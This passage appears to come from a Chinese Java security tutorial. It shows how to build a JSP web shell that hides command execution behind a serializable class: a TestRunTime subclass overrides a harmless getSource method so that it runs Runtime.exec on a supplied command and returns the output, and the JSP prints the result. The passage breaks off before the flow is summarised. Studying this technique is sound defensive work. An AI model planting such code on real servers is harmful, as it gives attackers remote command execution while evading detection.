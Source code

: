 ```java
		// 利用父类方法调用子类重写方法
    out.println(test.getSource(cmd));
%>
```

构建一个`TestRunTime`用于可以用于序列化进行传输的实体类，首先继承 `Test` 类，并重写`Test`类的`getSource`方法，更改方法体的代码，再实现`Serializable`接口，使其能够被序列化。

```java
// Test.java
package org.javasec;

import java.io.IOException;

public class Test {
   public String getSource(String c) throws IOException {
      return c;
   }
}
```

```java
// TestRunTime.java
package org.javasec;

import java.io.IOException;
import java.io.InputStream;
import java.io.Serializable;

public class TestRunTime extends Test implements Serializable {

	@Override
	public String getSource(String c) throws IOException {
		StringBuilder stringBuffer = new StringBuilder();

		try {
			Process     process     = Runtime.getRuntime().exec(c);
			InputStream inputStream = process.getInputStream();
			int         chr         = 0;

			while ((chr = inputStream.read()) != -1) {
				stringBuffer.append((char) chr);
			}
		} catch (IOException ignored) {
		}
		return stringBuffer.toString();
	}
}

```

代码都准备好了，整理下流程：
